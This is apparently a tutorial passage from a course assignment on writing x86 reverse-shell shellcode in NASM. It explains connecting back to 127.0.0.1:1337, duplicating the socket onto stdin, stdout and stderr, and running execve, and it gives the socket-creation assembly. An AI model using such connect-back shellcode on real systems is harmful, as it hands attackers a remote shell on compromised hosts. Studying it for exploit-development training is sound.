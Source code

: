 In the following, we will use the socketcall syscall.

### And the shell

Once the connection is established, we need to redirect the standards i/o streams to it to be able to interact with the shell we will be executing.  
To do so we need to duplicate the socket file descriptor and overwrite the stdin(0), stdout(1) and stderr(2) files descriptor, using dup2 syscall.

Then we can run our shell using the execve syscall.

## The assembly code

*A list of prototypes, associated headers files and manpages, special variables etc... that will be used to complete this assignment, can be find at the bottom of this post.*

**This shellcode will be Null byte free only if the ip address and port don't contain Null bytes**

### Create a socket

We need to use the socketcall with SYS_SOCKET in EBX and ECX pointing to the socket function arguments on the stack.  
These arguments need to be AF_INET, SOCK_STREAM and 0.  

A socket file descriptor will be returned in EAX, we will save it in EDI for later use.

```nasm
;socket(AF_INET, SOCK_STREAM, 0)
;socketcall(SYS_SOCKET, *socket_args)
    xor ebx, ebx        ; set ebx to 0
    mul ebx             ; set eax and edx to 0

    push ebx            ; 0 for the protocol argument
    inc ebx
    push ebx            ; SOCK_STREAM
    push byte 0x2       ; AF_INET

    mov ecx, esp        ; ecx points to the socket's arguments
    add al, 0x66        ; socketcall 
    int 0x80
    
    xchg edi, eax       ; we save the sockfd returned by socket to edi 
                        ; (xchg is one byte opcode, so best than mov(2 bytes) 
                        ; because we dont care about eax value)
```

### Connect to the remote host

We push the sockaddr structure on the stack, 
with values AF_INET, 0x3905 for port 1337 and 0x0100007f for ip address 127.0.0.1, and we save the address in ECX.

Next we need a pointer to the connect function's arguments, so we push sockfd (in EDI), the address of the sockaddr structure (in ECX) and the addrlen value 0x10
then we copy the stack address in ECX for the socketcall call and we set EBX to SYS_CONNECT and EAX to the socketcall value.
